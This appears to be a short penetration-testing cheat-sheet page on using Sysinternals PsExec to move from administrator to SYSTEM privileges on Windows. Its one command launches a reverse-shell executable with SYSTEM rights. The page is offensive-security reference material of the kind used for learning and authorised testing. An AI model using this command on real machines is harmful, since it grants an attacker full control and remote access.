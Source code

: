 # PSEXEC (admin to system)

## <mark style="color:red;">PSEXEC.exe</mark>

To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals

{% embed url="https://docs.microsoft.com/en-us/sysinternals/downloads/psexec" %}

```shell
PsExec64.exe -accepteula -i -s reverse_shell.exe
```
